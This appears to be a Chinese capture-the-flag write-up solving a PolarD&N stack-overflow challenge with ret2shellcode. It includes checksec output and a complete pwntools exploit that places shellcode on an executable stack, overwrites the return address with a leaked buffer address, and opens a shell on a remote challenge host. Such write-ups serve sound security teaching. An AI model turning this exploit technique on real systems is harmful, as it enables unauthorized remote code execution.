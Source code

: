 ```yaml
---
title: 基础栈溢出ret2shellcode 写入栈上
layout: doc
---
```


[[toc]]

> 需要关闭NX、

## 基础检查
> 本例题是PolarD&N的中等入门pwn题 getshell
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file pwn2          
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=223702b293e1903c70772cc6ed9ea4b6475e7599, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=pwn2          
[*] '/home/kali/win/Downloads/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## ida 
![alt text](image-11.png)

很显然v4的长度只有2，而v6很多，

v4写入shellcode的地址

v6写入shellcode
![alt text](image-12.png)

## exp
```py
from pwn import *
context(os="linux", arch='amd64')
io = process("./pwn2")
io = remote("120.46.59.242", 2056)

padding = 0x70 + 8

shellcode = asm(shellcraft.amd64.sh())

v4_addr = int(io.recvline().strip(),16) # 题目给出的地址 转为10进制发送
# ljust 将shellocde填充到缓冲器头部，自适应调整
payload = shellcode.ljust(padding, b'A') + p64(v4_addr)

io.sendline(payload)
io.interactive()
```